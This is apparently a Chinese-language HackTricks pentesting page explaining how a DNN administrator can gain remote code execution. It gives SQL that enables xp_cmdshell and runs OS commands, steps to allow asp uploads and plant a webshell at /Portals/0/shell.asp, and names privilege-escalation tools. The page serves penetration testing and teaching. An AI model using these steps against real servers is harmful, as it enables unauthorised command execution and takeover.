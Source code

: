 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

如果您以 **administrator** 身份登录 DNN，获取 RCE 非常简单。

## RCE

### 通过 SQL

在 **`Settings`** 页面下可以访问 SQL 控制台，您可以启用 **`xp_cmdshell`** 并 **运行操作系统命令**。

使用以下行来启用 **`xp_cmdshell`**：
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```
然后，按 **"Run Script"** 运行该 SQL 语句。

然后，使用以下内容运行 OS 命令：
```sql
xp_cmdshell 'whoami'
```
### 通过 ASP webshell

在 `Settings -> Security -> More -> More Security Settings` 中，您可以在 `Allowable File Extensions` 下 **添加新的允许扩展名**，然后点击 `Save` 按钮。

添加 **`asp`** 或 **`aspx`**，然后在 **`/admin/file-management`** 上传一个名为 `shell.asp` 的 **asp webshell**。

然后访问 **`/Portals/0/shell.asp`** 来访问您的 webshell。

### 权限提升

您可以使用 **Potatoes** 或 **PrintSpoofer** 例如 **提升权限**。&#x20;

{{#include ../../banners/hacktricks-training.md}}
